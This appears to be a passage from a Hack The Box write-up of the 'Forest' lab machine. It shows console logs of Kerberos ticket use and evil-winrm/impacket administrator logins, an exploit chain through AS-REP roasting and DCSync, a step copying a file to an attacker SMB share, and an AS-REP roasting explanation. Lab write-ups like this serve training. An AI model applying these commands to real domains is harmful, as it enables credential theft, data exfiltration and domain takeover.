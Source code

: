 ```console
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in Administrator.ccache
└─╼$ export KRB5CCNAME=Administrator.ccache
└─╼$ sudo ntpdate htb.local
2024-02-23 07:00:06.64162 (+0800) +167.070331 +/- 0.083832 htb.local 10.129.23.226 s1 no-leap
CLOCK: time stepped by 167.070331
└─╼$ python configure_krb5.py htb.local forest
[*] This script must be run as root
[*] Configuration Data:
[libdefault]
        default_realm = HTB.LOCAL
[realms]
        HTB.LOCAL = {
                kdc = forest.htb.local
                admin_server = forest.htb.local
        }
[domain_realm]
        htb.local = HTB.LOCAL
        .htb.local = HTB.LOCAL


[!] Above Configuration will overwrite /etc/krb5.conf, are you sure? [y/N] y
[+] /etc/krb5.conf has been configured
└─╼$ evil-winrm -i forest.htb.local -r htb.local
...
└─╼$ impacket-wmiexec -k -no-pass htb.local/administrator@forest
```

## Exploit Chain

port scan: dc -> enum4linux: usernames -> ASREP Roasting & hashcat: svc-alfresco credential -> bloodhound -> create new user with specific group & add DCSync priviliege -> dump admin nthash -> admin priv

## Beyond Root

### Download file from SMB

```console
*Evil-WinRM* PS C:\Users\svc-alfresco> net use \\10.10.16.24\qwe
*Evil-WinRM* PS C:\Users\svc-alfresco> copy xxx.zip \\10.10.16.24\qwe\
*Evil-WinRM* PS C:\Users\svc-alfresco> del xxx.zip; net use /d \\10.10.16.24\qwe
```

## AS-REP Roasting

AS-REP (Authentication Service Response) roasting can be performed against accounts that are configured to not require pre-authentication. In such cases, an attacker can request an AS-REP from the Key Distribution Center (KDC) without needing to provide a valid timestamp encrypted with the user's password hash. The AS-REP packet returned by the KDC will contain the user's encrypted credential information, which the attacker can then attempt to crack offline.
